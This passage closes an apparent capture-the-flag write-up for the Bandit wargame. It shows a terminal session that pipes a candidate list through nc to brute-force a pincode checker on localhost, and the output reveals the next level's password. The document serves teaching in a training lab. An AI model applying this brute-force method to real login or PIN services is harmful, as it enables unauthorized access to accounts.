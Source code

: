 We succeeded in creating a list, now let's use that list to brute force the pincode.

```terminal
bandit24@bandit:/tmp/dir$ cat list | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.       
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
.
.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
bandit24@bandit:/tmp/dir$
```


---

Thank you for taking the time to read my writeup, I hope you have learned something with this, if you have any questions or comments, please feel free to reach out to me. See you in the next hack :) .
